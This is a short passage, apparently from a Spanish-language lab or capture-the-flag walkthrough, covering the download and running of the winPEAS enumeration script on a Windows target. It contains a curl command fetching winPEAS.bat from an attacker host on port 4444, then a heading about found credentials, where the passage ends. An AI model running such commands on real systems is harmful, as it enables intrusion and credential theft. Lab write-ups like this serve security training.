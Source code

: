 ```bash
curl http://10.10.14.159:4444/winPEAS.bat -o winpeas.bat
```

![](../img/5586d0bbafdfa62672cafe98088f2095.png)

El archivo se descarga correctamente al escritorio.


### 🧠 4. Ejecución de winPEAS

```bash
winpeas.bat
```

Comienza el escaneo del sistema.

![](../img/5aeb855479b140b1a977696bd85b8215.png)

### 🧾 5. Resultado interesante: Credenciales encontradas
